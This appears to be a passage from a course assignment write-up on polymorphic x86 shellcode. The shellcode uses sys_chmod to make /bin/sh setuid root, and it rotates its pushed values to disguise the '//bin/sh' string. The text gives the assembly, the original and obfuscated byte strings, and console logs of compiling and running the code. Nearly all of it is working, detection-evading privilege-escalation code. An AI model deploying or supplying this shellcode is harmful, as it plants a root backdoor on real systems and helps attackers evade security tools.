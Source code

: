### Polymorphic Shellcode

{% highlight nasm linenos %}
global _start

_start:
    xor eax,eax
    push ecx
    push dword 0x343997b7
    rol dword [esp], 1
    push dword 0xd2c45e5e ; rol, 1
    ror dword [esp], 1
    mov ebx,esp

    mov cx,0x9fd    ; 04775
    mov al,0xf      ; sys_chmod
    int 0x80

    mov al,0x1
    int 0x80
{% endhighlight %}

### POC

- Compile the assembly code: `make target=filename`
- Run the shellcode C wrapper: `make target=filename run-shellcode`

#### Original Shellcode

{% highlight console linenos %}
root@ubuntu:/home/kecebong/slae32/assigment/poly# make target=chmod hex

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     31       0       0      31      1f chmod

[*] Shellcode:
"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x66\xb9\xfd\x09\xb0\x0f\xcd\x80\xb0\x01\xcd\x80"
{% endhighlight %}

#### Polymorphic Shellcode

{% highlight console linenos %}
root@ubuntu:/home/kecebong/slae32/assigment/poly# ls -alh /bin/sh
-rwxr-xr-x 1 root root 900K Mar 31 22:20 /bin/sh

root@ubuntu:/home/kecebong/slae32/assigment/poly# make target=chmod-poly 
[*] Assembling with nasm...
nasm -f elf32 -o chmod-poly.o chmod-poly.nasm

[*] Linking object...
ld -m elf_i386 -o chmod-poly chmod-poly.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     33       0       0      33      21 chmod-poly

[*] Shellcode:
"\x31\xc0\x51\x68\xb7\x97\x39\x34\xd1\x04\x24\x68\x5e\x5e\xc4\xd2\xd1\x0c\x24
\x89\xe3\x66\xb9\xfd\x09\xb0\x0f\xcd\x80\xb0\x01\xcd\x80"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

root@ubuntu:/home/kecebong/slae32/assigment/poly# make target=chmod-poly run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  33

